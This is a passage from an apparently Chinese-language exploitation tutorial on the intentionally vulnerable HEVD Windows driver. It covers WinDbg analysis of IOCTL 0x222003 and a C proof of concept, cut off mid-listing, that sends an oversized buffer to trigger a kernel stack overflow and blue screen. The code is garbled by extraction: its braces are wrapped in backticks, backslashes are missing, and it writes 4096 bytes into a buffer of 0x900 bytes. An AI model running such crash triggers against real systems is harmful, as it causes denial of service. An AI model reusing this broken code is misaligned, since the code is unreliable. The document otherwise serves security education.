 [![](https://p5.ssl.qhimg.com/t0161e44fe593938040.png)](https://p5.ssl.qhimg.com/t0161e44fe593938040.png)

可以在windbg中进一步分析这个例程，查看这个0x222003 IOCTL在哪里。

[![](https://p3.ssl.qhimg.com/t011d599265ca42a1ae.png)](https://p3.ssl.qhimg.com/t011d599265ca42a1ae.png)

如果我们遵循jz指令，则会导致堆栈溢出程序打印调试消息"** HACKSYS_EVD_STACKOVERFLOW **"

[![](https://p0.ssl.qhimg.com/t0105200a09eb0209bf.png)](https://p0.ssl.qhimg.com/t0105200a09eb0209bf.png)

<br>

**触发漏洞**

既然我们已经了解了IOCTL指令，现在让我们来触发这个漏洞。我将向其发送一个巨大的缓存，最终将造成蓝屏



```
// 源码地址：https://github.com/OsandaMalith/Exploits/blob/master/HEVD/StackOverflowBSOD.c
#include "stdafx.h"
#include &lt;Windows.h&gt;
#include &lt;string.h&gt;
/*
 * Title: HEVD x86 Stack Overflow BSOD
 * Platform: Windows 7 x86
 * Author: Osanda Malith Jayathissa (@OsandaMalith)
 * Website: https://osandamalith.com
 */
int _tmain(int argc, _TCHAR* argv[])
`{`
    HANDLE hDevice;
    LPCWSTR lpDeviceName = L"\\.\HacksysExtremeVulnerableDriver";
    PUCHAR lpInBuffer = NULL;
    DWORD lpBytesReturned = 0;
    hDevice = CreateFile(
        lpDeviceName,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);
    wprintf(L"[*] Author: @OsandaMalithn[*] Website: https://osandamalith.comnn");
    wprintf(L"[+] lpDeviceName: %lsn", lpDeviceName);
    if (hDevice == INVALID_HANDLE_VALUE) `{`
        wprintf(L"[!] Failed to get a handle to the driver. 0x%xn", GetLastError());
        return -1;
    `}`
    wprintf(L"[+] Device Handle: 0x%xn", hDevice);
    lpInBuffer = (PUCHAR)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 0x900);
    if (!lpInBuffer) `{`
        wprintf(L"[!] Failed to allocated memory. %x", GetLastError());
        return -1;
    `}`
    RtlFillMemory(lpInBuffer, (SIZE_T)1024*sizeof DWORD, 0x41);
    wprintf(L"[+] Sending IOCTL request with buffer: 0x222003n");
    DeviceIoControl(
        hDevice,
        0x222003, // IOCTL
        (LPVOID)lpInBuffer,
        2084,
        NULL,
        0,
        &amp;lpBytesReturned,
```